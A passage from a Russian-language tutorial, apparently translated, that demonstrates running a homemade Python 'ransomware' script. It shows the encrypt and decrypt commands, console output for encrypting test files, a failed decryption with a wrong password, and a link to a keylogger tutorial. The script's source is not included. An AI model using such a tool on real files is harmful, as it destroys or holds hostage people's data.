 Узнайте также: Как сделать кейлоггер на Python.

Выполнение кода
Чтобы протестировать наш скрипт, вы должны придумать файлы, которые вам не нужны, или иметь их копию где-то на вашем компьютере. Для моего случая я сделал папку с именем test-folder в том же каталоге, где находится ransomware.py, и принес некоторые PDF-документы, изображения, текстовые файлы и другие файлы. Вот его содержание:

Пример папки

А вот что находится в папке «Файлы»:

Внутри папки «Файлы»

Там, где архив и программы содержат некоторые zip-файлы и исполняемые файлы, давайте попробуем зашифровать всю эту папку тестовой папки:

$ python ransomware.py -e test-folder -s 32
Я указал размер соли 32 и передал тестовую папку скрипту. Вам будет предложено ввести пароль для шифрования; воспользуемся "1234":

Enter the password for encryption:
[*] Encrypting test-folder\Documents\2171614.xlsx
[*] Encrypting test-folder\Documents\receipt.pdf
[*] Encrypting test-folder\Files\Archive\12_compressed.zip
[*] Encrypting test-folder\Files\Archive\81023_Win.zip
[*] Encrypting test-folder\Files\Programs\Postman-win64-9.15.2-Setup.exe
[*] Encrypting test-folder\Pictures\crai.png
[*] Encrypting test-folder\Pictures\photo-22-09.jpg
[*] Encrypting test-folder\Pictures\photo-22-14.jpg
[*] Encrypting test-folder\test.txt
[*] Encrypting test-folder\test2.txt
[*] Encrypting test-folder\test3.txt
Вам будет предложено ввести пароль, get_pass() скрывает введенные символы, поэтому он более безопасен.

Похоже, скрипт успешно зашифровал всю папку! Вы можете проверить его самостоятельно на папке, которую вы придумали (я настаиваю, пожалуйста, не используйте его в нужных вам файлах и не используйте копию в другом месте).

Файлы остаются в том же расширении, но если вы щелкните правой кнопкой мыши, вы не сможете ничего прочитать.

Вы также заметите, что файл salt.salt появился в вашем текущем рабочем каталоге. Не удаляйте его, так как это необходимо для процесса расшифровки.

Попробуем расшифровать его неправильным паролем, что-то вроде «1235», а не «1234»:

$ python ransomware.py -d test-folder
Enter the password you used for encryption:
[*] Decrypting test-folder\Documents\2171614.xlsx
[!] Invalid token, most likely the password is incorrect
[*] Decrypting test-folder\Documents\receipt.pdf
[!] Invalid token, most likely the password is incorrect
[*] Decrypting test-folder\Files\Archive\12_compressed.zip
[!] Invalid token, most likely the password is incorrect
[*] Decrypting test-folder\Files\Archive\81023_Win.zip
[!] Invalid token, most likely the password is incorrect
[*] Decrypting test-folder\Files\Programs\Postman-win64-9.15.2-Setup.exe
[!] Invalid token, most likely the password is incorrect
[*] Decrypting test-folder\Pictures\crai.png
[!] Invalid token, most likely the password is incorrect
[*] Decrypting test-folder\Pictures\photo-22-09.jpg
[!] Invalid token, most likely the password is incorrect
[*] Decrypting test-folder\Pictures\photo-22-14.jpg
[!] Invalid token, most likely the password is incorrect
[*] Decrypting test-folder\test.txt
[!] Invalid token, most likely the password is incorrect
[*] Decrypting test-folder\test2.txt